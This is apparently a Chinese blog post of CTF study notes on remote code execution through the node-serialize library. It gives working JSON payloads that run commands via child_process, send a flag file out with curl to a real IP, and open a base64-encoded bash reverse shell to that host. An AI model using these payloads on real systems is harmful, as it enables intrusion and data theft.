



node反序列化学习
六月 22, 2021
学习文章：
1 | https://zhuanlan.zhihu.com/p/25581847 |
说是node有反序列化，其实是一个库的反序列化有漏洞 node-serialize
通过审计源码我们可以发现：
1 | for(key in obj) { |
当indexOf(FUNCFLAG) ====0的时候就会执行我们的代码了。并且执行的时候会截取去除掉FUNCFLAG的部分，其实这样就是任意代码执行了，捏个子进程出来
1 | {"go":"_$$ND_FUNC$$_process.mainModule.require('child_process').exec('whoami >>1')"} |


但是实际环境下我们可能没有写入的权限，所以尝试把他反弹出来..
ctf中可以直接这样子：
1 | {"go":"_$$ND_FUNC$$_process.mainModule.require('child_process').exec('curl http://81.69.201.65:1234/$(cat /flag|base64)')"} |
反弹shell的话可以这样：
直接执行bash的话我试了老半天发现没发成功也不知道为啥，于是base64一下
1 | {"go":"_$$ND_FUNC$$_process.mainModule.require('child_process').exec('echo IGJhc2ggLWkgPiYgL2Rldi90Y3AvODEuNjkuMjAxLjY1LzEyMzQgMD4mMQ==|base64 -d|bash')"} |
成功getshell

查看评论